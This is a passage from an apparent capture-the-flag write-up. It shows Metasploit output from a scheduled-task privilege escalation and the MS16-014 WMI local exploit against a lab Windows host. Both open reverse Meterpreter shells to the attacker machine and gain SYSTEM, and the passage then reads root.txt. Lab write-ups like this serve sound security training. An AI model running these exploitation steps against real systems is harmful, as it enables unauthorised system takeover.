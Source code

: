 ```
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] FnB0882rp0ZAqjr                          11/1/2018 10:55:00 PM  Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "FnB0882rp0ZAqjr" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "FnB0882rp0ZAqjr" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "FnB0882rp0ZAqjr".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.5:443 -> 10.10.10.93:49201) at 2018-10-26 15:57:56 -0400
[*] SUCCESS: The scheduled task "FnB0882rp0ZAqjr" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

While I’m here, I gave MS16-014 a run, and it worked as well:

```

msf exploit(windows/local/ms16_014_wmi_recv_notif) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Launching notepad to host the exploit...
[+] Process 312 launched.
[*] Reflectively injecting the exploit DLL into 312...
[*] Injecting exploit into 312...
[*] Exploit injected. Injecting payload into 312...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] Meterpreter session 3 opened (10.10.14.5:4444 -> 10.10.10.93:49202) at 2018-10-26 15:59:54 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

### root.txt

With any of these shells, I can grab root.txt:

```

PS C:\users\administrator\desktop> type root.txt
c837f7b6...

```